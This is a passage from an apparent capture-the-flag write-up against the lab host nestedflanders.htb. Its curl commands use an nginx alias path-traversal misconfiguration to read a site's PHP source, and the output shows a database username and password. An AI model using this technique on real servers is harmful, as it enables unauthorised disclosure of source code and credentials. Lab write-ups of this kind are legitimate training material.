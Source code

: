     root@kali# curl -s -k -I https://www.nestedflanders.htb/dev../ | grep HTTP
    HTTP/1.1 403 Forbidden



That shouldn't work. But it gives me a forbidden.

#### Grab Source

Based on my guess of the layout of the folder structure above, I can
check for files on the .md` (default) path:



    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev...md/ | grep HTTP
    HTTP/1.1 200 OK



I can verify that this is the default apache page by removing the `-I`
option.

What happens when I get `index.php`? Doing it through a normal path
traversal doesn't work, but through this alias trick does:



    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev/...md/index.php | grep HTTP
    HTTP/1.1 404 Not Found
    root@kali# curl -s -k -I https://www.nestedflanders.htb/dev...md/index.php | grep HTTP
    HTTP/1.1 200 OK



If I do a GET instead of a HEAD, I can see the full source for the page:



    root@kali# curl -s -k https://www.nestedflanders.htb/dev...md/index.php
    <?php
    $servername = "localhost";
    $username = "nestedflanders";
    $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
    ...[snip]...



Why am I getting source? In NGINX, you have to configure each server to
run requests through a php interpreter. If the dev server isn't
configured to run php, it will just return the static file, without
interpreting it.

### Find LFI

#### Source Analysis

With the full source, I can look at what's happening on the main site:



    <?php
    $servername = "localhost";
    $username = "nestedflanders";
    $password = "1036913cf7d38d4ea4f79b050f171e9fbf3f5e";
    $db = "neddy";
    $conn = new mysqli($servername, $username, $password, $db);
    $debug = False;

